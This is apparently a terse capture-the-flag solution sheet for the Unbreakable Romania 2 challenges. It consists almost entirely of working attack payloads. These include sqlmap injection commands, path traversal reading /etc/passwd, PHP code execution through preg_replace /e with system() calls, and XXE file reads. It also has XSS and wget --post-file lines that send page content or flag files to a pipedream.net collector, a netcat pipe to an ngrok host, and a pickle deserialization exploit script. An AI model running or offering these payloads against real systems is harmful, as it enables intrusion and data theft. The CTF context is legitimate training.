 writeups
https://blog.kuhi.to/unbreakable-romania-2-writeup
Small data leak
sqlmap -u http://35.198.183.125:30321/user?id=1; sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns

File Crawler
http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd http://34.141.25.94:32191/local?image_name=..////tmp//flag

Substitute
http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo() http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l") http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l") http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")

manual-review
<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>
syntax check
burpsuite

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>
Under Construction
https://github.com/ticarpi/jwt_tool

python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
https://jwt.io/

Downloader v1
ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'

Framable
<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>
atob('')

alfa-cookie
cmd = ('ls -lah | nc 2.tcp.ngrok.io 17855')

https://blog.kuhi.to/unbreakable-romania-2-writeup

Rundown
curl -X POST http://35.246.170.233:32274/ > o.html
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")

